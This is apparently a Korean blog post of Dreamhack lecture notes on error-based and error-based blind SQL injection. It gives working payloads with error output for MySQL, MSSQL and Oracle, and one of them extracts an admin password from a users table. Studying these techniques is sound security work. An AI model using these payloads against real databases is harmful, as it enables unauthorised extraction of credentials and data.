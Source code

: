 ```yaml
---
title: Error Based & Error based Blind SQL Injection
date: 2023-01-17
author: glasses96
categories: [Lecture, Dreamhack]
tags: [SQL Injection, Error Based SQL inejection, Error Based Blind SQL Injection]
pin: true
math: true
mermaid: true
---
```


> **DreamHack 강의를 통해 Error Based SQL Injection과 Error Based Blind SQL Injection에 대해서 알아봅시다.**
{: .prompt-info }

----
----
## Error Based SQL Injection

[Dreamhack](https://dreamhack.io/) 강의를 통해 Error Based SQL Injection이 무엇인지 알아봅시다.
Error Based SQL Injection 공격은 임의로 <span style="color:#9999FF">에러</span>를 발생 시켜 DB 및 운영체제의 정보를 획득하는 공격 기법입니다.

일반적으로 에러를 발생 시키기 위해 <span style="color:#9999FF">', " </span> 을 입력값에 넣어 에러 메시지가 유발되는지 확인을 합니다.


## Error Based SQL Injection Code
공격을 성공하기 위해서는 에러 메시지가 DBMS에서 쿼리가 실행되기 전 발생하는 에러가 아닌 쿼리가 실행되고 발생하는 에러가 필요합니다.

MYSQL 환경에서 발생하는 공격에 대해서 알아봅시다.
<span style="color:#9999FF">extractvalue</span> 함수를 이용하여 Error Based SQL injection 공격을 가능하게 할 수 있습니다.

```sql
[Query] SELECT extractvalue(1,concat(0x3a,version()));  -> ERROR 1105 (HY000): XPATH syntax error: ':5.7.29-0ubuntu0.16.04.1-log'
```

<span style="color:#9999FF">extractvalue</span> 함수는 첫 번째로 전달된 XML 데이터에서 두 번째 인자인 XPATH 식을 통해 데이터를 추출합니다. 올바르지 않는 XPATH식을 전달하면 에러 메시지에 삽입한 식의 결과가 출력됩니다.

```sql
SELECT extractvalue(1, ':abcd'); ERROR 1105 (HY000): XPATH syntax error: ':abcd' # ":" 로 시작하면 올바르지 않은 XPATH 식
```

----
## extractvalue 응용
<span style="color:#9999FF">extractvalue</span> 함수를 이용하여 사용할 경우 DB의 정보를 추출할 수 있습니다. 아래의 코드는 서브 쿼리를 통해 임의 테이블의 데이터를 획득한 모습입니다.

```sql
SELECT extractvalue(1,concat(0x3a,(SELECT password FROM users WHERE username='admin'))); ERROR 1105 (HY000): XPATH syntax error: ':Th1s_1s_admin_PASSW@rd'
```

----

## DBMS 별 Error Based SQL Injection 공격 방법

### MYSQL

```sql
SELECT updatexml(null,concat(0x0a,version()),null);  ERROR 1105 (HY000): XPATH syntax error: ' 5.7.29-0ubuntu0.16.04.1-log'
```

```sql
SELECT extractvalue(1,concat(0x3a,version()));  ERROR 1105 (HY000): XPATH syntax error: ':5.7.29-0ubuntu0.16.04.1-log'
```

```sql
SELECT COUNT(*), CONCAT((SELECT version()),0x3a,FLOOR(RAND(0)*2)) x FROM information_schema.tables GROUP BY x;  ERROR 1062 (23000): Duplicate entry '5.7.29-0ubuntu0.16.04.1-log:1' for key '<group_key>'
```

### MSSQL

```sql
SELECT convert(int,@@version); SELECT cast((SELECT @@version) as int);  Conversion failed when converting the nvarchar value 'Microsoft SQL Server 2014 - 12.0.2000.8 (Intel X86)  	Feb 20 2014 19:20:46  	Copyright (c) Microsoft Corporation 	Express Edition on Windows NT 6.3 <X64> (Build 9600: ) (WOW64) (Hypervisor) ' to data type int.
```

### ORACLE

```sql
SELECT CTXSYS.DRITHSX.SN(user,(select banner from v$version where rownum=1)) FROM dual;  ORA-20000: Oracle Text error: DRG-11701: thesaurus Oracle Database 18c Express Edition Release 18.0.0.0.0 - Production does not exist ORA-06512: at "CTXSYS.DRUE", line 183 ORA-06512: at "CTXSYS.DRITHSX", line 555 ORA-06512: at line 1
```

----

## Error Based Blind SQL Injection
Error Based Blind SQL Injection 공격은 임의로 <span style="color:#9999FF">에러</span>를 발생 시켜 참/거짓을 판단해 데이터를 추출하는 공격기법입니다.
Error Based SQL Injection은 출력값에 영향을 받지만 Error Based Blind SQL Injection은 에러 발생 여부만 필요로 합니다.

```sql
mysql> select if(1=1, 9e307*2,0); ERROR 1690 (22003): DOUBLE value is out of range in '(9e307 * 2)' mysql> select if(1=0, 9e307*2,0); +--------------------+ | if(1=0, 9e307*2,0) | +--------------------+ |                  0 | +--------------------+ 1 row in set (0.00 sec)
```

if(조건식)에 따라서 참이면 에러 발생 거짓이면 0를 발생시켜 DB를 추출할 수 있습니다.

----
## 후기
에러 발생 시키는 방법중에 Range를 넘겨 에러를 발생시키는 방법을 알게되어서 새로웠다 끝!